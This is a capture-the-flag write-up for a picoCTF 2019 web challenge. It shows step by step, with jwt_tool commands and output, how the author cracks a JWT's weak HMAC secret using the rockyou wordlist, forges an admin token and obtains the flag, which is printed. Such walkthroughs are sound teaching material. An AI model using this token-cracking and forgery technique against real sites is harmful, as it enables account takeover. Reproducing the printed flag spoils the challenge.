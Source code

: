 # Problem
Check the admin scratchpad! https://2019shell1.picoctf.com/problem/21893/ or http://2019shell1.picoctf.com:21893

## Hints:

What is that cookie?

Have you heard of JWT?

## Solution:

Lets go to the site:
![screenshot-1](./screenshot-1.png)

After logging in as ```roee```, we get this cookie:
![screenshot-2](./screenshot-2.png)
```javascript
jwt: "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoicm9lZSJ9.CoED0inBmPupk8TgsWR5nggpaKweY5P-28I67kWVYsM"
```

This is a [JSON Web Token](https://jwt.io/), trying to decode it with this site gives us:
![screenshot-3](./screenshot-3.png)

We just need to change the ```user``` to ```admin``` and to sign it with the ```secret key```.
Let's try to crack it against the [rockyou worklist](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt),
we can use [this tool](https://github.com/ticarpi/jwt_tool) to tweak the token.

```bash
wget https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt

../../../tools/jwt_tool/jwt_tool.py eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoicm9lZSJ9.CoED0inBmPupk8TgsWR5nggpaKweY5P-28I67kWVYsM ~/Downloads/rockyou.txt 

,----.,----.,----.,----.,----.,----.,----.,----.,----.,----.
----''----''----''----''----''----''----''----''----''----'
     ,--.,--.   ,--.,--------.,--------.             ,--.
     |  ||  |   |  |'--.  .--''--.  .--',---.  ,---. |  |
,--. |  ||  |.'.|  |   |  |      |  |  | .-. || .-. ||  |
|  '-'  /|   ,'.   |   |  |,----.|  |  ' '-' '' '-' '|  |
 `-----' '--'   '--'   `--''----'`--'   `---'  `---' `--'
,----.,----.,----.,----.,----.,----.,----.,----.,----.,----.
'----''----''----''----''----''----''----''----''----''----'

Token header values:
[+] typ = JWT
[+] alg = HS256

Token payload values:
[+] user = roee

######################################################
# Options:                                           #
# 1: Check CVE-2015-2951 - alg=None vulnerability    #
# 2: Check for Public Key bypass in RSA mode         #
# 3: Check signature against a key                   #
# 4: Check signature against a key file ("kid")      #
# 5: Crack signature with supplied dictionary file   #
# 6: Tamper with payload data (key required to sign) #
# 0: Quit                                            #
######################################################

Please make a selection (1-6)
> 5

Loading key dictionary...
File loaded: /home/roee/Downloads/rockyou.txt
Testing 14344380 passwords...
[+] ilovepico is the CORRECT key!
```

Nice, found the secret key: ```ilovepico```.

Now let's tweak:
```bash
python ../../../tools/jwt_tool/jwt_tool.py eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoicm9lZSJ9.CoED0inBmPupk8TgsWR5nggpaKweY5P-28I67kWVYsM 

,----.,----.,----.,----.,----.,----.,----.,----.,----.,----.
----''----''----''----''----''----''----''----''----''----'
     ,--.,--.   ,--.,--------.,--------.             ,--.
     |  ||  |   |  |'--.  .--''--.  .--',---.  ,---. |  |
,--. |  ||  |.'.|  |   |  |      |  |  | .-. || .-. ||  |
|  '-'  /|   ,'.   |   |  |,----.|  |  ' '-' '' '-' '|  |
 `-----' '--'   '--'   `--''----'`--'   `---'  `---' `--'
,----.,----.,----.,----.,----.,----.,----.,----.,----.,----.
'----''----''----''----''----''----''----''----''----''----'

Token header values:
[+] typ = JWT
[+] alg = HS256

Token payload values:
[+] user = roee

######################################################
# Options:                                           #
# 1: Check CVE-2015-2951 - alg=None vulnerability    #
# 2: Check for Public Key bypass in RSA mode         #
# 3: Check signature against a key                   #
# 4: Check signature against a key file ("kid")      #
# 5: Crack signature with supplied dictionary file   #
# 6: Tamper with payload data (key required to sign) #
# 0: Quit                                            #
######################################################

Please make a selection (1-6)
> 6

Token header values:
[1] typ = JWT
[2] alg = HS256
[3] *ADD A VALUE*
[0] Continue to next step

Please select a field number:
(or 0 to Continue)
> 0

Token payload values:
[1] user = roee
[0] Continue to next step

Please select a field number:
(or 0 to Continue)
> 1

Current value of user is: roee
Please enter new value and hit ENTER
> admin
[1] user = admin
[0] Continue to next step

Please select a field number:
(or 0 to Continue)
> 0

Token Signing:
[1] Sign token with known key
[2] Strip signature from token vulnerable to CVE-2015-2951
[3] Sign with Public Key bypass vulnerability
[4] Sign token with key file

Please select an option from above (1-4):
> 1

Please enter the known key:
> ilovepico

Please enter the keylength:
[1] HMAC-SHA256
[2] HMAC-SHA384
[3] HMAC-SHA512
> 1

Your new forged token:
[+] URL safe: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYWRtaW4ifQ.gtqDl4jVDvNbEe_JYEZTN19Vx6X9NNZtRVbKPBkhO-s
[+] Standard: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYWRtaW4ifQ.gtqDl4jVDvNbEe/JYEZTN19Vx6X9NNZtRVbKPBkhO+s
```

And we got tampered cookie: ```eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYWRtaW4ifQ.gtqDl4jVDvNbEe_JYEZTN19Vx6X9NNZtRVbKPBkhO-s```, let's update it:

Got it!

Flag: picoCTF{jawt_was_just_what_you_thought_c84a0d3754338763548dfc2dc171cdd0}
